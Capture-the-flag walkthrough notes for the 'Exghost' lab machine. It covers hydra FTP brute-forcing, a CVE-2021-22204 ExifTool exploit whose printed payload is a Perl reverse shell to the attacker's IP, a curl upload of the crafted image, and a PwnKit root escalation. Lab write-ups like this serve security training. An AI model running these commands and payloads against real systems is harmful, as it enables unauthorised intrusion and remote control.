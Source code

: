 # PG Practice: Exghost
https://medium.com/@vivek-kumar/offensive-security-proving-grounds-walk-through-exghost-2e9a969ef711
`export IP=192.168.70.183`

### All failed so go with Bruteforce
```
hydra -t 20 -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P password.txt -vV $IP ftp
```
I know ridiculous `user:system`

### ftp
```
❯ ftp $IP
Connected to 192.168.70.183.
220 (vsFTPd 3.0.3)
Name (192.168.70.183:alvin): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -alh
229 Entering Extended Passive Mode (|||43520|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
226 Directory send OK.
ftp> get backup
local: backup remote: backup
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for backup (126151 bytes).
100% |***********************************************************************************************************************************************|   123 KiB  126.06 KiB/s    00:00 ETA
226 Transfer complete.
126151 bytes received in 00:01 (105.24 KiB/s)
```

### wireshark to the packet capture
```
POST /exiftest.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------169621313238602050593908562572
Content-Length: 14806
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/
Upgrade-Insecure-Requests: 1

-----------------------------169621313238602050593908562572
Content-Disposition: form-data; name="myFile"; filename="testme.jpg"           // <- myFile as the entry
Content-Type: image/jpeg
```
opening it with Wireshark to enumerate further. Filtering the HTTP packets, we see that someone uploaded an image to ip/exiftest.php and the upload was successful. We also can see the version of ExifTool running on the box.

Under `line-based text data` of the 200 response. File uploaded successfully :)<pre>ExifTool Version Number         : 12.23\n

### Let's try to upload a file
```
echo 'wqer 1234' > test01.txt

curl -F 'myFile=@test01.txt' -k http://192.168.70.183/exiftest.php
File not allowed.
```

### Exploit the exiftool by gooling its version
https://www.exploit-db.com/exploits/50911

```
❯ python3 exploit.py -s 192.168.49.70 7890

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(7890,inet_aton('192.168.49.70')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
RUNTIME: DONE - Exploit image written to 'image.jpg'
```
```
curl -F 'myFile=@image.jpg' -k http://192.168.70.183/exiftest.php
```

### Got the user.txt
##### linpeas
```
Vulnerable to CVE-2021-4034 # https://github.com/topics/cve-2021-4034

Vulnerable to CVE-2021-3560 # Not working, tried CVE-2021-3560-Polkit-Privilege-Esclation
```

###
There is no compiler installed on the machine. I cloned a few of the available exploits but any C code compiled on my system doesn’t seem to work on the target machine. Finding a python exploit for the same. And it works giving us a root shell. Refer: https://github.com/joeammond/CVE-2021-4034

# Sum up
Try python script when above issues happened
https://github.com/topics/cve-2021-4034

I found this one instead. https://github.com/A1vinSmith/CVE-2021-4034